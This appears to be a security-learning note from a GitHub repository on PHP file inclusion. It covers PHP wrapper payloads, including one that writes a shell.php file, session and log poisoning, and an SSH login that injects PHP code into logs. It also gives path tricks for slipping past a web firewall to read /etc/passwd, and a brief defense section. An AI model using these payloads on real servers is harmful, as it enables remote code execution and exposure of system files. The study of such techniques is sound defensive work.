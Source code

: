# File Inclusion  
PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  

Gogs:  
*  [Inject path to session id](#inject-path-to-session-id)  
  
Conclusion:  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23
```  
[List of Available Filters](http://php.net/manual/en/filters.php)

2. Session inclusion  
* [include tmp with phpinfo](https://github.com/vulhub/vulhub/tree/master/php/inclusion)
* 🍊[Hitcon2018 ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)  
[hitcon 2018受虐笔记一:one-line-php-challenge 学习 by wonderkun](http://wonderkun.cc/index.html/?cat=1&paged=3)  
[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  

4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  

5. Include temporary file with segmentation fault  
[php 7.1.x<20](https://github.com/php/php-src/blob/PHP-7.1.0/ext/standard/filters.c#L277)  
In the above version, `php://filter/string.strip_tags/resource=` will cause to segmentation fault and temporary files cannot be cleaned up. [My analysis of the detail](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/LFI-with-segmentation-fault.pdf)  
```php
// assume that I can control the parameter of file function
include($_POST['file']);
```  
[Here is the script of bruteforce which can help to get temp filename](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/gen_tmp.py)

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# Inject path to session id
[CVE-2018-18925](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925)  
The cause of this bug is that framework use file as the session provider, but not all framework do the same things. You can try to include the other file as fake session.  

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)  
3. [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/?fbclid=IwAR0537cUHx0RuYwbjdVLudlitdkofr5HHhqMcafXW3aoWqlUoJ_lMRAsnk8)
